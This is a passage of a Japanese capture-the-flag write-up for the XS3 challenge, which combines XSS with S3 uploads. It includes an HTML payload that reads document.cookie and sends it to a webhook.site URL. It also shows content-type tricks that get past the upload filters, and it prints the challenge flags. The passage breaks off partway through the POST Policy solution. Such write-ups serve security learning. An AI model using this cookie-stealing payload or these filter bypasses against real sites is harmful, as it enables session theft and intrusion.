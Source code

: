 ```yaml
---
title: "XS3 Writeup"
id: "XS3-Writeup"
description: "XS3 ChallengeのWriteupです。"
author: "rikoteki"
createdAt: "2024-04-04"
isDraft: true
---
```


# ToC

2024/3/28 17:00 JST ~ 2024/4/4 16:59 JSTで開催されたXS3に参加させていただいたのでWriteupです。

XSSとS3を題材にしたCTFのようです。

Introduction, Validation Bypass, Logic Bug, Advanced, Specialという難易度(?)設定がありました。

# Introduction

## Welcome Flag

Welcome問題です。

表示されるフラグを提出するのみ。

```
 flag{welcome_2_xs3}
```

## Server Side Upload

Webアプリケーションとクローラーのソースコードが渡されます。

WebアプリケーションはアップロードフォームとクローラーにアクセスさせるURLを報告するフォームがあります。

![image](https://github.com/r1k0t3k1/note/assets/57973603/f6fbfc64-8081-4275-a35b-5ce5e8b37338)

特にソースコードを気にすることもなく下記のようなHTMLをアップロードした後、URLをクローラーに報告すればフラグ付きでアクセスしてくれました。

```html
<html>
  <body>
    <script>
      const c = btoa(document.cookie);
      fetch("https://webhook.site/89fb3de1-73b3-4344-a625-121bbeab850a?rikoteki="+c);
    </script>
  </body>
</html>
```

```
flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}
```

## Pre Signed Upload

クローラーのソースコードは変更が無いようでWebアプリケーションのソースコードのみが渡されます。

Webアプリケーションの画面も1問目と変わりません。

1問目同様HTMLをアップロードしようとすると拒否されます。

```
Failed to get presigned URL
```

ソースコードを確認すると、`/api/upload`へのリクエストでcontentTypeによるフィルタがあります。

リクエストボディ

```json
{"contentType":"text/html","length":186}
```

ソースコードのフィルタ部分

```typescript
  const allow = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allow.includes(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }
```

ただし、このリクエスト後に発生する署名付きURLを使用したアップロード時にはContent-Typeのチェックがされていないので`/api/upload`へのリクエストのcontentTypeを許可されたものに書き換えるだけでアップロードが可能になります。

```
{"contentType":"image/png","length":186}
```

アップロードが成功したら1問目と同様の手順でフラグが取得できます。

```
flag{fc6f76dd4368e888c1bc878b7750b374c891639f}
```

## POST Policy

Webアプリケーションのソースコード有り、クローラーの実装は変更無し、Webアプリケーションの画面も変更はありません。

今回の問題はファイルタイプをクライアント側でも検証している模様。

```
Invalid file type
```

かつ、問題名からもPost Policyを用いてContent-Typeを制限している模様。

ただし、`starts-with`を使用しているので`image`から開始していれば何でも許可される。

```typescript
  const filename = uuidv4();
  const s3 = new S3Client({});
  const { url, fields } = await createPresignedPost(s3, {
    Bucket: process.env.BUCKET_NAME!,
    Key: `upload/${filename}`,
    Conditions: [
      ['content-length-range', 0, 1024 * 1024 * 100],
      ['starts-with', '$Content-Type', 'image'],
    ],
    Fields: {
      'Content-Type': request.body.contentType,
    },
    Expires: 600,
  });
  return reply.header('content-type', 'application/json').send({
    url,
    fields,
  });
```

調べると以下のURLが見つかり、見ていると当問題に使えそうなテクニックが有りました。

https://github.com/BlackFan/content-type-research/blob/master/XSS.md

```
{"contentType":"image/gif;charset=gbk,text/html","length":186}
```

